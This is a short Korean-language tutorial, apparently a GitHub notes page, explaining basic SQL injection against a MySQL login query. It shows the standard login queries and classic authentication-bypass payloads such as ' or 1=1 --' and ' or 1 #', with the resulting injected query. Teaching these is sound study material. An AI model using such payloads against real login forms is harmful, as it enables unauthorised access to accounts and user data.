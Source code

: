 # GENERAL SQL injection
<br><br><br>
> ( ) <- 강조 ( ) 기호는 제외

<br><br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'

입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

-> 1=1 or 1 참이 되는 값을 주입하여 USER 리스트를 출력하게함
~~~~
<br><br>
